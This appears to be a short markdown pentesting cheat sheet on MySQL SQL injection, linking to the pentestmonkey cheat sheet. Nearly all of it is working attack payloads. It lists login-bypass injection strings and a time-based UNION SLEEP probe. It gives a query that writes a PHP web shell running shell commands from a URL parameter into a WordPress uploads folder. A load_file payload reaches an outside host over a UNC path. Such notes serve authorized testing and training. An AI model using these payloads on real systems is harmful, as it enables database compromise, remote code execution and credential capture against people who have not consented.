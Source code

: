 ```yaml
---
tags:
  - Enumeration
  - TCP
  - MySQL
  - SQL
  - Concepts
---
```


# Guide

1. [MySQL SQL Injection Cheat Sheet | pentestmonkey](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
# Injection Commands

# Example Login Queries

```
SELECT * FROM users where ((password = hash({password})) and (username = {username}))
```

## Password Bypass

```
' or 1=1
```
```
admin' --
```
```
' or '1'='1'--'
```
```
' or 1=1 -- -
```
```
' UNION SELECT SLEEP(10);-- --
```

# Save File

```
Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
```

# Windows

```
term=10' UNION SELECT 1,load_file('\\\\192.168.19.26\\test'),3-- -
```